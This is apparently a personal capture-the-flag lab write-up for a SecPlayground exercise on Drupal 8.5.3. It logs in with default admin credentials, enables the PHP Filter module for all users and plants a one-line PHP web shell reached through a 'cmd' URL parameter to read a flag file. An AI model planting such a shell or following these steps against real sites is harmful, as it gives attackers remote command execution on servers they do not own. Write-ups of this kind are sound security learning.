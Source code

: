 # bkornpob.github.io
bkornpob website

--------------------------

#drupal #misconfigured #shell-injection
#secplayground

Exercise: https://play.secplayground.com/lab/65

# Brief

Default admin cred
```
Drupal version 8.5.3
user: admin
password: password
```

# Mission

Read flag.txt

# Solved

pwn: login with default admin cred
escalate: inject php shell
payload: `<?php system($_GET["cmd"]); ?>`

![alt text1](Pasted image 20250905002202.png)

![alt text2](0 unsorted/Pasted image 20250905002202.png)

![alt text3](SELENE-username-enumeration-response-timing.png)

1. access the server and login with admin:password
2. research about Drupal interface and how to inject php shell
   summary: simply create a page, make sure php script is enabled
3. Content > Add content > Basic page > 
   'Title':'abc', 
   'Body':payload,
   'Text format':***Notice that there is no php option*** , leave default as 'Basic HTML',
   'Published':1,
   SAVE
4. access the abc page and verify that php script is disabled
5. enable php script
	1. install PHP module
		   Extend > Install new module > modules
		   this takes to https://www.drupal.org/project/project_module
		   find ![[Pasted image 20250905002202.png]] ***it was really hard to find; filter and sort saved the day?***
		   https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
			   The website encountered an unexpected error. Please try again later.
			try different release ![[Pasted image 20250905003434.png]]
		   https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
			   Installation was completed successfully.
	2. enable PHP module
	   idea of this step is to grant privy for non-admin user to run php script
		   Extend > find PHP Filter > Check TRUE > Install
		   Extend > find PHP Filter > Click (at the description) to expand > Permission > find 'Use the PHP Code text format' > Check TRUE all users > Save permissions
6.  Create Basic page (step 3) now has
	   'Text format':'PHP code'
	inject php shell
7. Access either using preview
	   http://34.124.158.245/node/preview/75d37909-67a4-428c-91c6-2948dc73192f/full?cmd=whoami
	or directly access the published page
		http://34.124.158.245/node/1?cmd=whoami
8. Read flag.txt

